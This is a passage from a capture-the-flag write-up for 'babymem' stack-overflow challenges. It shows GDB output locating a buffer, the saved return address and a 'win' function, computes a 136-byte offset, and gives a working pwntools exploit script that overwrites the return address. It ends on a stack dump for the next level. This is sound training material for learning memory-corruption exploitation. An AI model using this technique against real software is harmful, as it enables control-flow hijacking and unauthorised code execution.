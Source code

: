 * As we can see the return address is `<main+238>` and it is located at `0x7fff0c8f8e98`.
* We want to replace this value with the address of the `win` function.

```
gef➤  disass win
Dump of assembler code for function win:
   0x0000000000402184 <+0>:     endbr64 
; -- snip --
```

* As we can see the `win` function starts at `0x0000000000402184`.
* We now have the information we need:
  * [x] Location of buffer: `0x7fff0c8f8e10`.
  * [x] Location of stored return address: `0x7fff0c8f8e98`.
  * [x] Address of win function: `0x0000000000402184`.
* Let's calculate the padding required.

```
gef➤  p/d 0x7fff0c8f8e98 - 0x7fff0c8f8e10
$3 = 136
```

* We can now create our payload.

```python
from pwn import *

padding = b'A' * 136
payload = padding + p64(0x402184)

p = process('/challenge/babymem_level3.1')
p.recvuntil('size:')
p.sendline('200')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```



## level 4.0

> Overflow a buffer and smash the stack to obtain the flag, but this time bypass a check designed to prevent you from doing so!

* Our stack frame looks something like this:

{% code fullWidth="false" %}
```
	    +---------------------------------+-------------------------+--------------------+
	    |                  Stack location |            Data (bytes) |      Data (LE int) |
	    +---------------------------------+-------------------------+--------------------+
rsp ------> | 0x00007ffd173983c0 (rsp+0x0000) | a0 d4 01 6a 59 7f 00 00 | 0x00007f596a01d4a0 |
	    | 0x00007ffd173983c8 (rsp+0x0008) | 78 95 39 17 fd 7f 00 00 | 0x00007ffd17399578 |
	    | 0x00007ffd173983d0 (rsp+0x0010) | 68 95 39 17 fd 7f 00 00 | 0x00007ffd17399568 |
            | 0x00007ffd173983d8 (rsp+0x0018) | dd 65 ec 69 01 00 00 00 | 0x0000000169ec65dd |
            | 0x00007ffd173983e0 (rsp+0x0020) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
	    | 0x00007ffd173983e8 (rsp+0x0028) | a0 16 02 6a 00 00 00 00 | 0x000000006a0216a0 |
	    | 0x00007ffd173983f0 (rsp+0x0030) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 | \
	    | 0x00007ffd173983f8 (rsp+0x0038) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  \
	    | 0x00007ffd17398400 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007ffd17398408 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |---- buffer
       	    | 0x00007ffd17398410 (rsp+0x0050) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
       	    | 0x00007ffd17398418 (rsp+0x0058) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
            | 0x00007ffd17398420 (rsp+0x0060) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  /
            | 0x00007ffd17398428 (rsp+0x0068) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 | /
            | 0x00007ffd17398430 (rsp+0x0070) | d0 11 40 00 00 00 00 00 | 0x00000000004011d0 |
```